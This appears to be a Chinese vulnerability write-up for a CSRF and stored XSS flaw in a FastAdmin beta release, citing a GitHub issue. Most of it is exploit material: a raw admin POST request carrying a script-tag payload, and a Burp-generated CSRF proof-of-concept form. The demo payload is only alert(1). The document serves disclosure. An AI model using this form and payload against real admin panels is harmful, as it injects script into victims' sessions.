 FastAdmin csrf+存储型xss漏洞
============================

一、漏洞简介
------------

二、漏洞影响
------------

V1.0.0.20200506\_beta

三、复现过程
------------

    POST /admin.php/category/add?dialog=1 HTTP/1.1
    Host: www.0-sec.org
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 233
    Origin: https://www.0-sec.org
    Connection: close
    Referer: http://admin.com/admin.php/category/add?dialog=1
    Cookie: PHPSESSID=ou6fjfn717lu02rfm9saqguca4; uid=3; token=f824ac8c-ac7b-4979-a89b-b47dd8e79226

    row%5Btype%5D=default&row%5Bpid%5D=0&row%5Bname%5D=%3Cscript%3Ealert(1)%3C%2Fscript%3E&row%5Bnickname%5D=123&row%5Bimage%5D=1&row%5Bkeywords%5D=123&row%5Bdescription%5D=123&row%5Bweigh%5D=0&row%5Bstatus%5D=normal&row%5Bflag%5D%5B%5D=

### csrf poc

    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <body>
      <script>history.pushState('', '', '/')</script>
        <form action="https://www.0-sec.org/admin.php/category/add?dialog=1" method="POST">
          <input type="hidden" name="row&#91;type&#93;" value="default" />
          <input type="hidden" name="row&#91;pid&#93;" value="0" />
          <input type="hidden" name="row&#91;name&#93;" value="&lt;script&gt;alert&#40;1&#41;&lt;&#47;script&gt;" />
          <input type="hidden" name="row&#91;nickname&#93;" value="123" />
          <input type="hidden" name="row&#91;image&#93;" value="1" />
          <input type="hidden" name="row&#91;keywords&#93;" value="123" />
          <input type="hidden" name="row&#91;description&#93;" value="123" />
          <input type="hidden" name="row&#91;weigh&#93;" value="0" />
          <input type="hidden" name="row&#91;status&#93;" value="normal" />
          <input type="hidden" name="row&#91;flag&#93;&#91;&#93;" value="" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>

![1.png](./resource/FastAdmincsrf+存储型xss漏洞/media/rId25.png)

![2.png](./resource/FastAdmincsrf+存储型xss漏洞/media/rId26.png)

参考链接
--------

> https://github.com/karsonzhang/fastadmin/issues/67
